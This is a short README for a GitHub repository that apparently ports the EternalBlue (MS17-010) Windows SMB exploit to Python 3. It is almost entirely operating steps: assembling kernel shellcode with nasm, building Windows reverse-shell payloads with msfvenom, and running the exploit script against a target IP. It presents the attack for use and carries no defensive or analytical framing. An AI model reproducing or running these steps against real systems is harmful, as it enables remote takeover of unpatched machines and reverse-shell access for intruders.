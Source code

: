 # EternalBlue-in-Python3

How to use

```git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git```

Compiling the shellcode(s)

X64
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin

X86
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin


Create a Bin

X64
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin

X86
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin


Exploit

python3 eternal-blue.py TARGET-IP final.bin
